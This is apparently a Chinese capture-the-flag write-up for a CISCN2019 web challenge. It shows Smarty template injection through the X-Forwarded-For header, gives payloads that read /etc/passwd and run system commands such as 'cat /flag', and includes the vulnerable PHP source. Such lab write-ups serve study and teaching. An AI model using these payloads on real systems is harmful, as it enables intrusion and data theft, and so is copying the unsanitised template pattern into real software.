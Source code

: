 # \[CISCN2019 华东南赛区]Web11

## \[CISCN2019 华东南赛区]Web11

## 考点

* Smarty SSTI

## wp

其实是给了提示的，在请求头中加`XFF`，并且是smarty框架，smarty很经典的考点就是SSTI

![](<../../.gitbook/assets/image (3) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (10) (1).png>)

burp抓包改XFF存在回显

![](<../../.gitbook/assets/image (8) (1) (1) (1).png>)

然后尝试SSTI

![](<../../.gitbook/assets/image (6) (1) (1) (1).png>)

再按照下图方法判断SSTI类型

![](../../.gitbook/assets/8sFfzWRJrj.png)

是Smarty SSTI

![](<../../.gitbook/assets/image (11) (1) (1).png>)

Smarty支持使用`{php}{/php}`标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。但是在<mark style="color:red;">Smarty3中已经废弃{php}标签</mark>。在Smarty 3.1中，`{php}`仅在SmartyBC中可用。

利用方法：

1. `{self::getStreamVariable("file:///etc/passwd")}`在3.1.30版本删除
2. `{if phpinfo()}{/if}`
3. `{{system('ls')}}`

payload：`{{system('cat /flag')}}`

## 小结

1. smarty SSTI源码

```php
<?php

require_once('./smarty/libs/' . 'Smarty.class.php');

$smarty = new Smarty();

$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];

$smarty->display("string:".$ip);

}
```
